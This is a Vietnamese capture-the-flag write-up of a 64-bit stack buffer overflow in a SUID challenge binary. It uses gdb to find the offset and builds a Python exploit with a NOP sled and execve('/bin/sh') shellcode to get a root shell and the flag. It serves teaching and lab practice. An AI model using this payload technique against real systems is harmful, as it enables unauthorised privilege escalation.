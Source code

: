 # EXTRA CREDIT - CYBERCLASS


<p align="center">
  <img src="image/a.png"  alt="meo coding logo" style="height: 100px; width:100px;"  />
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

## **Contents**

- [Introduction](#Introduction)
- [Address the problem](#address-the-problem)
  - [GDB](#gdb-secret)
  - [shellcode](#shellcode)
  - [Nopsled](#nopsled)
- [Flag](#flag)
- [Links](#links)

## **Introduction**

- Công cụ sử dụng để debug là *gdb (plugin peda)*
- Mã khai khác viết bằng code *python* .

![alt text](image/de.png "Title")

![alt text](image/2.png "Title")

Đề bài cho ta 1 file **executable** và được chạy dưới quyền **suid**, nhiệm vụ phải lon ton lên root để tìm được **flag**. Đầu tiên chạy file **executable** xem có gì trong đó nào...

## **Address the problem**

![alt text](image/3.png "Title")

Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```

![alt text](image/4.png "Title")

`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

### **GDB secret**

Để thuận tiện hơn ta sẽ tạo một file  **a.txt** để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở **gdb** lên để phân tích.

![alt text](image/5.png "Title")

Nhìn vào ta thấy chỗ tốt nhất để **break point** là leave trước return **istruction**. Dòng thứ hai từ dưới main lên.

![alt text](image/6.png "Title")

Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```r
x/24wx $rsp
```

![alt text](image/8.png "Title")

Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính **buffer’s size**.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```

![alt text](image/9.png "Title")

Vậy **buffer's size** sẽ là 1032 kí tự *a*.

### **Shellcode**

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi **RIP** thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin,  giờ ta tiến hành tìm một đoạn shellcode trên **Google** (shell-storm, exploit-db, packetstormsecurity,..). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách **`padding + RIP + NOP + shellcode`**

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền **suid**. Vậy shellcode sẽ thực thi **/bin/sh** thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## **Nopsled**

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa bởi trong quá trình chạy chương trình, địa chỉ có thể chênh lệch khiến NOP mang địa chỉ không theo mong muốn)

![alt text](image/10.png "Title")

Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

![alt text](image/12.png "Title")

Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.

![alt text](image/13.png "Title")

Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```r
(gdb) x/100xg $rbp
```
![alt text](image/14.png "Title")

![alt text](image/15.png "Title")

Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```

![alt text](image/16.png "Title")

Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

## **Flag**

![alt text](image/17.png "Title")

Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` .UwwwwU `cat flag-whoa.txt` ta dễ dàng có được kết quả mong muốn.

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```

## **Links**

Vì đây là lần đầu em viết write-up nên em đã tham khảo các nguồn sau:

[First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA)

[Buffer Overflow Examples](https://0xrick.github.io/binary-exploitation/bof5/#stack5)

[Buffer Overflow - in a nutshell](https://viblo.asia/p/buffer-overflow-in-a-nutshell-m68Z0ox6KkG)

[Shellcode là gì?](https://vietnix.vn/shellcode-la-gi/)

[Khai thác Buffer Overflow – Control EIP (Nopsled + Shellcode)](https://hoccyber.com/buffer-overflow-eip/)


